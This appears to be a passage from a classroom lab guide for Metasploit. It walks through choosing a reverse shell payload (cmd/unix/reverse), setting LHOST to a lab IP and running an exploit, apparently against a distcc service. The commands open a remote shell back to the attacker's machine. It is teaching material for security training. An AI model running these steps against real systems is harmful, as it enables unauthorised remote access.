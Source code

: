 3. Before running the module, we need to set a payload. List the available payloads.

   - `show payloads`
   
   - Note the **Description** column, as it shows in parentheses how the payload is communicating.

4. Select the **reverse** payload. Be sure NOT to select **reverse_bash**, or the exploit will not work.

   - `set PAYLOAD cmd/unix/reverse`
   
   - Note that we are now using the PAYLOAD with our EXPLOIT!

5. List options again, and note that there's a new blank setting, LHOST. This is our "listening host," which is the host that listens for the payload communication. In this case, our LHOST is the machine that we're currently operating on. Use `ifconfig` to show your IP (eth0) and set LHOST to that IP.

   - `set LHOST 172.22.117.100`

   ![A screenshot depicts the results of the `options` command.](images/payloadoptions.PNG)

6. Run the module.

   - `exploit` OR `run`

   ![A screenshot depicts the results of the command.](images/distcc.PNG)
